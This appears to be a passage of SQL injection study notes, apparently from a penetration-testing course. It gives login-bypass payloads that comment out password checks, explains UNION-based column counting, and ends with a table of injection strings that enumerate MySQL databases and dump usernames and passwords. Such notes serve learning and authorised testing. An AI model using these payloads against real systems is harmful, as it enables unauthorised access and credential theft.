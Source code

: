 We get something like this:
```sql
SELECT * FROM logins WHERE username='admin'-- - AND password = 'something';
```
We can see the AND check gets commented out.

We can now try to login as another user by creating a customized payload:
```sql
SELECT * FROM logins WHERE (username='') OR id = 5-- -' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
```
>**ℹ️ Info**
>
>We commented the AND id bigger than one verification to tell the login form to login as the user with id 5.

## Union Clause
The `UNION` clause allows us to retrieve results from multiple `SELECT` querys:
```sql
SELECT * FROM employees UNION SELECT * FROM departments;
```
For this to work the number of columns must match in both `SELECT` querys otherwise we will get an error:
```sql                                                                 
ERROR 1222 (21000): The used SELECT statements have a different number of columns
```
By adding `NULL` placeholders and going by trial and error we can guess the number of columns until we get the data back:
```sql
select * from employees UNION select dept_no,dept_name,NULL,NULL,NULL,NULL from departments;
```

## Union Injection
Before being able to exploit union based injections, we need to find the number of columns that the server uses, we can use:
- `' ORDER BY 1 -- -` and keep incrementing the number until nothing or an error returns.
- `' UNION select NULL,@@version-- -` and keep adding `NULL` until nothing or an error returns, using the built in `@@version` to check if the data is being returned.

### Database Enumeration
| Query | Description |
|---------------------------|--------------------------------------------|
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
